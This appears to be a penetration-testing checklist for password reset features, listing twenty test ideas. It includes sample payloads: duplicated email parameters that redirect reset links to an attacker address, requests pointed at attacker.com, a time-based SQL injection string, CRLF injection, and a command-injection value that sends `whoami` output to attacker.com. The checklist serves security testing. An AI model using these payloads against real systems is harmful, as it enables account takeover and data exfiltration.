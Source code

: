 # Broken Authentication
- [Reset Password functionality](#reset-password-functionality)




## Reset Password functionality
- [Default Passwords](https://www.cirt.net/passwords)
1. Password Reset Poisoning
    - Investigate whether the password reset functionality is vulnerable to poisoning by manipulating parameters in the request.
```
email=victim@gmail.com&email=attacker@gmail.com

email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
2. HTTP Parameter Pollution
    - Verify if it’s possible to reset the victim's password using a reset link sent to the attacker's inbox.
3. IDOR (Insecure Direct Object Reference)
    - Examine the reset link for parameters vulnerable to IDOR.
    - Use tools like ParamMiner to discover hidden or additional parameters. For example, appending parameters like uid from a profile update request.
4. Cryptographic Weakness
    - Check for predictable password reset tokens:
        - Analyze if the token generation logic can be guessed or reversed.
5. Token Leakage
    - Via Referrer Header: Open the reset link and click external links to see if the token is leaked.
    - In Responses or JS Files: Search for the reset token in API responses or JavaScript files.
6. Session Management
    - Verify if the session/token persists after resetting the password.
7. Password Policy Testing
    - Try weak or edge-case passwords:
        - Use only spaces as the password.
    - Check for acceptance of excessively long passwords to test for application-level DoS.
8. Multiple Token Handling
    - Request two reset links and verify if older tokens remain valid.
9. Password Reset Link Manipulation
- Test various link formats:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
10. Injection Attacks
    - SQLi: `test@test.com'+(select*from(select(sleep(2)))a)+'`
    - CRLF Injection: `/resetpassword?%0d%0aHost:%20attacker.com`
    - Command Injection: ```email=hello@`whoami`.attacker.com```
11. User Enumeration
    - Check if errors or responses reveal whether an account exists.
12. Edge Cases
    - Register an account with the victim's username and include trailing or leading whitespace (e.g.,'tuhin1729' ,' tuhin1729'). Use the token to reset the victim's password (e.g., CVE-2020-7245).
13. 2FA/OTP Bypass
    - If OTPs are sent, employ known 2FA bypass techniques to verify security.
14. Homograph Testing
    - Use homographs (e.g., "victim@gmail.com" with visually similar Unicode characters) during registration and attempt password reset.
15. Request Modifications
    - Change the HTTP request method and Content-Type. Observe how the application handles unexpected formats.
16. Parameter Reflection
    - Check if parameter values (e.g., email) reflect in the response. Test for HTML Injection (HTMLi).
17. XML External Entity (XXE)
    - If the reset request accepts XML input, test for XXE vulnerabilities.
18. Rate Limiting
    - Test for missing rate limits by repeatedly triggering email notifications.
19. Advanced Attacks
    - Check whether any param value is reflecting in the email. Now try XSS - SSTI
20. Post-Reset Vulnerabilities
    - Confirm if 2FA is auto-disabled after a password reset.
